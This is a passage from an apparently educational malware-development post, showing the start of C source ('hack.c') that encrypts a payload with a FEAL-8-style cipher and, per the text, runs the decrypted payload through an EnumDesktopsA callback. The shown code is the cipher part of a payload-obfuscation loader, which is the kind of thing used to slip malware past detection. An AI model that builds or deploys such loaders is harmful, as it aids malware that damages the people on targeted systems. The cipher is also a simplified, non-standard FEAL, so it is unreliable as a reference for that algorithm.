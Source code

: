 and the decrypted payload is executed using the `EnumDesktopsA` function.

The full source code is looks like this (`hack.c`):     

```cpp
/*
 * hack.c
 * encrypt/decrypt payload via FEAL-8 algorithm
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/09/12/malware-cryptography-32.html
 */

#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 8    // FEAL-8 uses 8 rounds of encryption
#define BLOCK_SIZE 8  // FEAL-8 operates on 64-bit (8-byte) blocks

// subkeys generated from the main key
uint8_t K[ROUNDS][8];

// rotate left 1 bit
uint32_t rotl(uint32_t x, int shift) {
  return (x << shift) | (x >> (32 - shift));
}

// function F used in FEAL-8
uint32_t F(uint32_t x1, uint32_t x2) {
  return rotl((x1 ^ x2), 2);
}

// function G used in FEAL-8
void G(uint32_t* left, uint32_t* right, uint8_t* roundKey) {
  uint32_t tempLeft = *left;
  *left = *right;
  *right = tempLeft ^ F(*left, *right) ^ *(uint32_t*)roundKey;
}

// key schedule for FEAL-8
void key_schedule(uint8_t* key) {
  for (int i = 0; i < ROUNDS; i++) {
    for (int j = 0; j < 8; j++) {
      K[i][j] = key[j] ^ (i + j);
    }
  }
}

// FEAL-8 encryption function
void feal8_encrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of encryption
  for (int i = 0; i < ROUNDS; i++) {
    G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;
}

// FEAL-8 decryption function
```